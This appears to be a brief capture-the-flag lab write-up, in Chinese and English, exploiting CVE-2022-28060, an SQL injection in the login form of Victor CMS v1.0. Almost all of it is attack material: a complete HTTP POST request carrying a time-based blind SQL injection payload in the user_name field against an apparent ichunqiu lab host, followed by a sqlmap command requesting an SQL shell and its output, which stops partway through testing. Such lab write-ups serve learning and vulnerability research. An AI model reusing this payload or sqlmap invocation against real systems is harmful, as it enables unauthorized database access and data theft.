 ## CVE-2022-28060 Victor CMS v1.0 存在sql注入

```
POST /includes/login.php HTTP/1.1
Host: eci-2ze9yuyw8sqsqqb6tip2.cloudeci1.ichunqiu.com
Content-Length: 82
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://eci-2ze9yuyw8sqsqqb6tip2.cloudeci1.ichunqiu.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eci-2ze9yuyw8sqsqqb6tip2.cloudeci1.ichunqiu.com/register.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=ekifpu2u08ot7hvm16eap5fh1v
Connection: close

user_name=1'+AND+(SELECT*FROM+(SELECT+SLEEP(5))a)+AND+'1'='&user_password=2&login=
```

```
┌──(kali㉿kali)-[~/Desktop/chunqiuyunjing]
└─$ sqlmap -r cve-2022-28060.txt --sql-shell -v
        ___
       __H__                                                                                                                                                                                                                               
 ___ ___[.]_____ ___ ___  {1.7.2#stable}                                                                                                                                                                                                   
|_ -| . [']     | .'| . |                                                                                                                                                                                                                  
|___|_  [']_|_|_|__,|  _|                                                                                                                                                                                                                  
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                               

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 05:05:55 /2023-06-24/

[05:05:55] [INFO] parsing HTTP request from 'cve-2022-28060.txt'
[05:05:55] [WARNING] provided value for parameter 'login' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[05:05:57] [INFO] testing connection to the target URL
got a 302 redirect to 'http://eci-2ze9yuyw8sqsqqb6tip2.cloudeci1.ichunqiu.com:80/index.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
[05:06:12] [INFO] testing if the target URL content is stable
[05:06:13] [WARNING] POST parameter 'user_name' does not appear to be dynamic
[05:06:13] [WARNING] heuristic (basic) test shows that POST parameter 'user_name' might not be injectable
[05:06:13] [INFO] testing for SQL injection on POST parameter 'user_name'
[05:06:13] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
```